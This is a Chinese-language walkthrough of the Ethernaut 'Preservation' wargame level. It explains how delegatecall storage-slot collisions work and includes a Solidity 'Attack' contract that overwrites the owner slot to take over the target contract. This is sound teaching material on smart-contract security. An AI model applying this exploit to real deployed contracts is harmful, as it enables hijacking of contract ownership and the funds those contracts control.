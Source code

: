 # Preservation

## Reference
[Preservation](https://ethernaut.openzeppelin.com/level/16)

[Preservation.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/16-Preservation/Preservation.sol)

## 目标
1. 合约提供两个不同时区时间，通过自定义的时区示例合约，成功抢占当前合约的 `Owner`

## 分析
1. 和 [telephone](https://github.com/yuhuajing/ethernaut-book/blob/main/src/04-Telephone/Telephone.md)类似
2. 当前合约 `delegateCall` 远程合约，使用远程合约的逻辑更新当前合约内部的参数
3. 当前合约内部更新自己内部参数时，按照远程 `delegateCall` 的合约 `slot` 栈顺序进行更新
### Owner
```solidity
contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
```
1. `address` 数据类型占据完整的 `slot`,`Preservation` 合约中在 `slot2` 中存储 `owner`
2. 因此，`Preservation` 合约执行 `delegatecall` 更新自身参数的时候，实例合约应该更新 `slot2` 数据
```solidity
// Simple library contract to set the time
contract Attack {
    address public t1;
    address public t2;
    address public owner;
     uint256 storedTime;

    function setTime(uint256 _time) public {
        owner = msg.sender;
        storedTime = _time;
    }
}
```
3. `Preservation` 合约将 `Attack` 合约作为 `instance` 实例，直接 `delegateCall setTime(uint256 _time)` 函数
4. `Attack` 合约更新 `slot2,slot3` 数据
5. 因此，`Preservation` 将 `slot2` 值按照 `Attack` 合约逻辑更新为 `msg.sender`, 将 `slot3` 的值更新为内部传输的参数 `_time`.
